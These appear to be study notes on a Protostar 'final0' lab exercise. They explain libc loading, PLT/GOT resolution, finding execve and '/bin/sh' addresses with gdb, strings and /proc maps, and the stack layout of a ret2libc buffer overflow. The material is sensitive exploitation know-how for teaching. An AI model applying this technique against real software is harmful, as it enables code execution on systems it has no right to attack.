


Before the main() runs, there are a bunch of system calls getting executed, including the ld.so(Dynamic Linker/Loader) which maps libc to address space, the return value(0xb7e97000) of mmap2(...) is the starting address of libc

By the way, the address of puts command in source code which invoke sys call-write in the highlight circle was still unknown before puts code is reached, then code jump to corresponding PLT section, if this is the first time puts being called, PLT ask ld.so to find puts and update GOT. Otherwise, jump to PLT, then get the address from GOT directly. 
Assuming we need to find execve() in libc, and the address can be acquired simply by
(gdb) print &execve
$1 = (<text variable, no debug info> *) 0xb7f2e170 <__execve>or
(gdb) info function@plt
....
0x08048bec fprintf@plt
0x08048bfc setvbuf@plt
0x08048c0c execve@plt <-
0x08048c1c malloc@plt
0x08048c2c fork@plt
....Assuming we need to find "/bin/sh" in libc
offset of "/bin/sh" in libc
root@protostar:/tmp# strings -t x /lib/libc-2.11.2.so | grep "bin/sh"
11f3bf /bin/shaddress of libc in process memory(not sure why info proc mapping prints the wrong address)
root@protostar:/tmp# cat /proc/`pidof final0`/maps
08048000-0804a000 r-xp 00000000 00:10 2211 /opt/protostar/bin/final0
0804a000-0804b000 rwxp 00001000 00:10 2211 /opt/protostar/bin/final0
b7e96000-b7e97000 rwxp 00000000 00:00 0
b7e97000-b7fd5000 r-xp 00000000 00:10 759 /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759 /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759 /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759 /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0
b7fe0000-b7fe2000 rwxp 00000000 00:00 0
b7fe2000-b7fe3000 r-xp 00000000 00:00 0 [vdso]
b7fe3000-b7ffe000 r-xp 00000000 00:10 741 /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741 /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741 /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0 [stack]or
root@protostar:/opt/protostar/bin# ldd final0
linux-gate.so.1 => (0xb7fe4000)
libc.so.6 => /lib/libc.so.6 (0xb7e99000) ???
/lib/ld-linux.so.2 (0xb7fe5000)or
root@protostar:/opt/protostar/bin# strace ./final0
...
open("/lib/libc.so.6", O_RDONLY) = 3
...
mmap2(NULL, 1329480, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7e97000address of "/bin/sh" = offset + address of "libc"
When code reach ret
stack (before overflow): [return addr1] [....] [....] [....] [....]
stack (after overflow): [addr(execv)] [return addr2] [arg0] [arg1] [arg2][return addr2] is added to build the stack so that ret acts as a call, otherwise the execve will return to arg0 and read arg1 for the first arguement.